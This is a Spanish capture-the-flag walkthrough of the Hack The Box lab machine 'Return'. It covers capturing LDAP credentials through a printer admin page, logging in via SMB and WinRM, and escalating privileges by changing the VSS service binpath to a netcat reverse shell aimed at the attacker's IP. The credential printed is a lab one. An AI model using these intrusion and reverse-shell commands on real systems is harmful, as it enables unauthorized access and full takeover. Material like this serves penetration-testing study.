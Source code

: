 # HTB-Return `10.10.11.108`

*Abusing Printer*

*Abusing Server Operators Group*

*Service Configuration Manipulation*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 10.10.11.108 -oN Targeted
```
 
 ![samba](images/sambaaaaaaaa.jpg)
 
 
 ![gordo](images/gordoooo.jpg)

Descubrimos varios puertos interesantes abiertos, entre ellos:
`
80,135,139,389 y 445.
`

Vamos a empezar examinando la web, encontramos un directorio público en el que parece que nos conectamos a una impresora a través de una dirección y el puerto 389.

 ![WEB](oscp-prep/HTB-Return/images/web_ini.jpg)
 
 
Podemos comprobar que la contraseña no es una contraseña como tal, es solo texto.
Se me ocurre que podemos ver si tenemos conexión con ese formulario, para ello introducimos nuestra dirección IP.

![serv_add](/images/serv_add.jpg)

Y abrimos tcpdump por el adaptador red de la VPN.

```
tcpdump -i tun0 -n icmp
```
 
Al hacer click en update, podemos ver que nos llegan paquetes HTTP.

![resp](/images/resuesta.jpg)
 
Vamos a intentar escuchar por el puerto indicado, el 389, con netcat:

![nc](/images/nc.jpg)

Y vaya, tenemos credenciales.

`
svc-printer:1edFg43012 !!
`

Si las probamos en crackmapexec podemos ver que son credenciales válidas para SMB.

```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![crack](/images/crackmapexec.jpg)

Lo podemos comprobar con smbmap

```
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![smb](/images/smbmap.jpg)
 
Vamos a realizar la intrusión en la máquina usando evil-winrm (gem install evil-winrm)

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![winrm](/images/winrm.jpg)

*Y hemos logrado entrar en la máquina y obtener la primera flag.*


### Escalada de Privilegios
Si hacemos un `whoami /priv` obtenemos varios medios por los que escalar privilegios.

Si hacemos un `whoami /groups` nos llama la atención Server Operators
 
![groups](/images/groups.jpg)

“A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.”
Vamos a intentar modificar un servicio como dice aquí [https://cube0x0.github.io/Pocing-Beyond-DA/](https://cube0x0.github.io/Pocing-Beyond-DA/)


Vamos a subir netcat a la máquina víctima

![loc](/images/locate_nc.jpg)

![impacket](/images/Impacket.jpg)

![copy](/images/copy.jpg)
 

Vamos a ver que servicios hay activos: `services`

![servicios](/images/images.jpg)
 
*Inicialmente se va probando con cada servicio, hasta que nos deje con uno de ellos:*

Intentamos cambiar el servicio VSS con binpath, indicándole que nos mande una Shell con netcat

```
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.11 443
```

![binpath](/images/binpath.jpg)
 
Intentamos parar el servicio, pero no está iniciado.

![stop](/images/stop.jpg)

Así que lo iniciamos, abriendo un puerto de escucha antes en nuestra máquina

![nc2](/images/nc2.jpg)

![start](/images/start.jpg)

Recibimos exitosamente una Shell

![admin](/images/admin.jpg)

Completando la máquina exitosamente
  

